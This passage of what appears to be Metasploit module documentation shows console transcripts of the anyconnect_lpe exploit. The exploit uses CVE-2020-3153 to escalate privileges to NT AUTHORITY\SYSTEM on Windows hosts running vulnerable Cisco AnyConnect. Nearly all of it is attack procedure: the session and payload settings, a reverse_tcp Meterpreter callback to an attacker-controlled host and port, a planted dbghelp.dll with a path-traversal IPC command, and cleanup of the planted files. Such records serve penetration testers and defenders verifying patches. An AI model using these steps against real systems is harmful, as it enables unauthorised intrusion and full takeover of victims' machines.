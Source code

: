 ```
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : W
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : fr_FR
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
### Windows 7 SP1  with AnyConnect 4.7.4056 - CVE-2020-3153

```
msf exploit(windows/local/anyconnect_lpe) > set session 4
session => 4
msf exploit(windows/local/anyconnect_lpe) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/local/anyconnect_lpe) > set lhost 192.168.1.24
lhost => 192.168.1.24
msf exploit(windows/local/anyconnect_lpe) > set lport 4445
lport => 4445
msf exploit(windows/local/anyconnect_lpe) > set verbose true
verbose => true
msf exploit(windows/local/anyconnect_lpe) > set cve CVE-2020-3153
cve => CVE-2020-3153
msf exploit(windows/local/anyconnect_lpe) > check 

[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.7.4056.0.0 < 4.8.02042 (CVE-2020-3153 & CVE-2020-3433).
msf exploit(windows/local/anyconnect_lpe) > run

[*] Started reverse TCP handler on 192.168.1.24:4445 
[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.7.4056.0.0 < 4.8.02042 (CVE-2020-3153 & CVE-2020-3433).
[*] "-ipc" argument needed
[*] Writing the payload to C:\ProgramData\Cisco\dbghelp.dll
[*] IPC Command: "CAC-nc-install        -ipc=29278      C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\iZnG\iZnG\iZnG\iZnG\../../../../vpndownloader.exe     -"
[*] Connecting to the AnyConnect agent on 127.0.0.1:62522
[*] Send the encoded IPC command (size = 270 bytes)
[*] Sending stage (176195 bytes) to 192.168.1.20
[*] Meterpreter session 5 opened (192.168.1.24:4445 -> 192.168.1.20:45098) at 2020-09-01 14:23:13 +0200
[+] Deleted C:\ProgramData\Cisco\dbghelp.dll
[+] Deleted C:\ProgramData\Cisco\vpndownloader.exe
[*] Shutdown the socket

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : ATGO-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
```